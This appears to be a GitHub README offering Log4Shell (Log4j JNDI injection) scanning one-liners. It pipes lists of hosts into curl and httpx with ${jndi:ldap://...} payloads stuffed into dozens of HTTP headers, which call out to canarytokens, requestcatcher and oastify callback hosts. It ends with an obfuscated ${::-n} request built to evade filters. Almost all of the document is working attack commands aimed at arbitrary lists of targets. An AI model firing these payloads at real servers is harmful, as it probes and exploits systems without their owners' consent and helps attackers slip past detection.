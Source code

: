 # Log4Shell Some Proved Testing Methods
 
# Oneliner 1:
```
$ cat vulnerable-hosts.txt | sed 's/https\?:\/\///' | xargs -I {} echo '{}/${jndi:ldap://{}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' >> L4SFuzzList
$ httpx -l L4SFuzzList
```
#Oneliner 2:
```
$ cat 1.txt | while read host do; do curl -sk --insecure --path-as-is "$host/?test=${jndi:ldap://L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}" -H "X-Api-Version: ${jndi:ldap://log4j.requestcatcher.com/a}" -H "User-Agent: ${jndi:ldap://L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}";done (Credit:https://twitter.com/HackerGautam/status/1469751218926882816)
 ```
 
# The Great resource to learn and earn:
https://github.com/pentesterland/Log4Shell
 
# Screw-up the server (Run on your own risk). Gives you a lot fase-positives, but need to retest with other tools to confirm the valodation: 
```
cat vulnerable-hosts.txt |  httpx -H 'X-Api-Version: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'Cookie: mt.v=${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'Cookie: CID_CART_COOKIE=${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'User-Agent: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'User-Agent: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'Referer: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'Origin: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'Accept-Language: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'X-Forwarded-By: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'X-Forwarded-For: \${jndi:ldap://${hostName}.L4J.zdgnnnz669jsqwlr243a74pk1b72v5ju.oastify.com/a}' -H 'X-Forwarded-For-Original: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'X-Forwarded-Host:${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'X-Forwarded-Port: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'X-Forwarded-Proto: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'X-Forwarded-Protocol: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'X-Forwarded-Scheme: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'X-Forwarded-Server: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'X-Forwarded-Ssl: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'X-Forwarder-For: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'X-Forward-For: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'X-Forward-Proto: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'X-Frame-Options: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'X-From: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'X-Geoip-Country: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'X-XSRF-TOKEN: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'Accept: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'Accept-Datetime: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'Accept-Charset: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'Accept-Encoding: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}' -H 'Accept-Language: ${jndi:ldap://x${hostName}.L4J.quua8mp7vfexh3a3qkf1sggj9.canarytokens.com/a}'
```
```
GET /test?id=%24%7Bj%24%7B::-n%7Ddi:dns%24%7B::-:%7D//quua8mp7vfexh3a3qkf1sggj9%24%7B::-.%7Dcanarytokens.com%7D HTTP/1.1
User-Agent: ${j${::-n}di:dns${::-:}//quua8mp7vfexh3a3qkf1sggj9${::-.}canarytokens.com}
Origin: ${j${::-n}di:dns${::-:}//quua8mp7vfexh3a3qkf1sggj9${::-.}canarytokens.com}
Referer: ${j${::-n}di:dns${::-:}//quua8mp7vfexh3a3qkf1sggj9${::-.}canarytokens.com}
```